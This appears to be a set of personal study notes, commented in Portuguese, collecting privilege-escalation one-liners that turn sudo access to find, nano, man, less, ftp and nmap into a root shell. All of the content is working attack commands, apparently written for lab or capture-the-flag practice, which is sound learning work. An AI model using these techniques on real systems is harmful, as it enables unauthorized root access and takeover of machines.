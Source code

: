 
```
find . -exec /bin/bash \; -quit
# Escalação com find
```


```
sudo nano
# Escalação com nano

^R^X
# Digitar com CTRL

reset; sh 1>&0 2>&0

reset
# Precisei usar reset de novo

# ^X para sair e reset para limpar o terminal
```


```
sudo man man
# Escalação com man

!/bin/bash
#Vai abrir a edição do manual

# exit para sair, depois dar enter e usar o q
```


```
sudo less /etc/profile
# Escalação com less

!/bin/bash

# exit para sair, depois dar enter e usar o q
```


```
sudo ftp
# Escalação com ftp

ftp> !/bin/bash

# Dar 2 exit pra sair
```


```
# Escalação com nmap

TF=$(mktemp)
# Cria uma pasta temporária

echo 'os.execute("/bin/sh")' > $TF
# echo para a pasta com o comando de s.o. para invocar uma shell

sudo nmap --script=$TF
# Executa o comando como um script do nmap, que tem a perm de sudo

# Outra escalação
sudo nmap --interactive
!bash

# Outra escalação
```